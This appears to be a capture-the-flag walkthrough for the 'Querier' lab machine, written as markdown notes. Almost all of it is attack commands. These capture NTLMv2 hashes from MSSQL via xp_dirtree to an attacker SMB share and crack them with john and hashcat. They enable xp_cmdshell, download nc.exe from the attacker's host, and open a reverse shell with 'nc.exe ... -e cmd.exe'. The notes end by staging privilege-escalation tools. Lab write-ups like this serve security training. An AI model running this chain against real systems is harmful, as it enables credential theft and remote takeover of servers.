 > hard .-. 

## Querier
Capturing MSSQL Credentials - https://medium.com/@markmotig/how-to-capture-mssql-credentials-with-xp-dirtree-smbserver-py-5c29d852f478
```bash
# binwalk = to see what files are inside another file
# its used in steganography a lot, but we can use in files also
binwalk -e <file> 
```
```bash
impacket/mssqlclient.py <domain/username:password@<target ip> -windows-auth
```

in SQL:
```bash
SQL > enable_xp_cmdshell
```

in Kali:
```bash
mkdir share
impacket/smbserver.py -smb2support share share/
```

in SQL:
```bash
exec xp_dirtree '\\<kali ip\share\',1,1
```

> This should give us a hash in our smbserver (NTLMv2 hash)

- copy the hash in a txt
- and try to crack with john

```bash
john --show --format=netntlmv2 hash.txt -w=/rockyou.txt
hashcat -m 5600 hash.txt rockyou.txt -O
```

in SQL:
```bash
SQL > enable_xp_cmdshell
```

If we can enable the shell in SQL, we can execute commands:
```bash
SQL> xp_cmdshell dir c:\
# upload a netcat and get a better shell
# open a web server in kali, to send a file

xp_cmdshell powershell -c Invoke-WebRequest "http://<kali ip>/nc.exe" -OutFile "C:\<path>\nc.exe"
xp_cmdshell C:\<path>\nc.exe <kali ip> <port> -e cmd.exe
```

> we get a user shell

```bash
# open a web server again: Inside the directory that has PowerUp.ps1 | winpeas | sherlock etc
python -m http.server
```
